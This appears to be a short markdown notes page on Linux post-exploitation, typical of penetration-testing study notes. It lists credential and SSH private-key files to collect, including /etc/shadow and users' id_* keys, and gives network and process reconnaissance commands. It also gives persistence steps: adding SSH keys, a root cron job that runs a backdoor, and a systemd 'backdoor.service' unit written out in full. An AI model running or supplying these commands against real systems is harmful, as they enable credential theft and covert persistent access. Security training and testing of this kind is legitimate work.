 ```yaml
---
layout: notes
permalink: /notes/linux/post/
title: Linux Post Exploitation
---
```


# Linux Post Exploitation

## Data Collection

### Sensitive Files
```bash
# Common locations
/etc/shadow
/etc/passwd
/etc/ssh/ssh_host_*
/home/*/.ssh/id_*
/root/.ssh/id_*
```

### Network Information
```bash
# Gather network data
ip neighbor
route -n
cat /etc/hosts
cat /etc/resolv.conf
```

### Process Information
```bash
ps auxf
pstree -a
lsof -i
```

## Persistence Techniques

### SSH Keys
- Generate new SSH key pair
- Add to authorized_keys
- Modify SSH configuration

### Cron Jobs
```bash
# Add persistent cron job
echo "* * * * * /path/to/backdoor" >> /var/spool/cron/crontabs/root
```

### Service Creation
```bash
# Create systemd service
cat > /etc/systemd/system/backdoor.service << EOF
[Unit]
Description=Backdoor Service

[Service]
ExecStart=/path/to/backdoor

[Install]
WantedBy=multi-user.target
EOF
```